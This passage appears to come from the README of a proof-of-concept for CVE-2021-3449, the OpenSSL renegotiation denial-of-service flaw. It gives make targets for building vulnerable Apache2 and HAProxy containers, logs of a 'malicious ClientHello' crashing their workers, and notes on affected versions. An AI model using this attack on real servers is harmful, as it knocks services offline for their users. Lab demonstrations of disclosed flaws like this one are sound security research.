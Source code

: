 Thank you to [@binarytrails](https://github.com/binarytrails) for the contribution.

Result: Partial disruption, main process still alive but worker process crashed.

**Logs**

```
docker run -d -it --name cve-2021-3449-apache2 --network host local/cve-2021-3449/apache2
0bf38dd8ab721f0ae3713448d2a28050b6e7d11fa7e3174b6ec9b1bbcfa124c8
docker logs -f cve-2021-3449-apache2 &

[[truncated]]

sending initial ClientHello
connected
sending malicious ClientHello
[Sat Mar 27 02:54:38.153327 2021] [ssl:info] [pid 21:tid 140433175750400] [client 127.0.0.1:46846] AH01964: Connection to child 64 established (server localhost:443)
[Sat Mar 27 02:54:38.153619 2021] [ssl:debug] [pid 21:tid 140433175750400] ssl_engine_kernel.c(2317): [client 127.0.0.1:46846] AH02043: SSL virtual host for servername localhost found
[Sat Mar 27 02:54:38.155697 2021] [ssl:debug] [pid 21:tid 140433175750400] ssl_engine_kernel.c(2233): [client 127.0.0.1:46846] AH02041: Protocol: TLSv1.2, Cipher: ECDHE-RSA-CHACHA20-POLY1305 (256/256 bits)
[Sat Mar 27 02:54:38.155781 2021] [ssl:error] [pid 21:tid 140433175750400] [client 127.0.0.1:46846] AH02042: rejecting client initiated renegotiation
[Sat Mar 27 02:54:38.155837 2021] [ssl:debug] [pid 21:tid 140433175750400] ssl_engine_kernel.c(2317): [client 127.0.0.1:46846] AH02043: SSL virtual host for servername localhost found
malicious handshake failed, exploit might have worked: EOF
[Sat Mar 27 02:54:39.183129 2021] [core:notice] [pid 19:tid 140433267538880] AH00051: child pid 21 exit signal Segmentation fault (11), possible coredump in /etc/apache2
```

### HAProxy

HAProxy versions 2.0.13 and up are not affected.

Versions before at least 1.8.8 are vulnerable with "intermediate" TLS configuration is vulnerable.

* `make demo-haproxy`: Full run (port 4433)
* `make -C demo build-haproxy`: Build target Docker image
* `make -C demo start-haproxy`: Start target at port 4433
* `make -C demo stop-haproxy`: Stop target

Tests run using master-worker mode (`-W` flag, default on Debian).
Surprisingly, the master process exits if a worker process dies.

Result: Full server crash.

**Logs**

```
docker run -d -it --name cve-2021-3449-haproxy --network host local/cve-2021-3449/haproxy
1786bd2fc0ed8d8ffb0388fb223a61c9cabdd095cb9908e35ad4c77e1677cda8
docker logs -f cve-2021-3449-haproxy &
sending initial ClientHello
connected
sending malicious ClientHello
malicious handshake failed, exploit might have worked: EOF
[ALERT] 086/075305 (1) : Current worker 7 exited with code 139
[ALERT] 086/075305 (1) : exit-on-failure: killing every workers with SIGTERM
[WARNING] 086/075305 (1) : All workers exited. Exiting... (139)
```
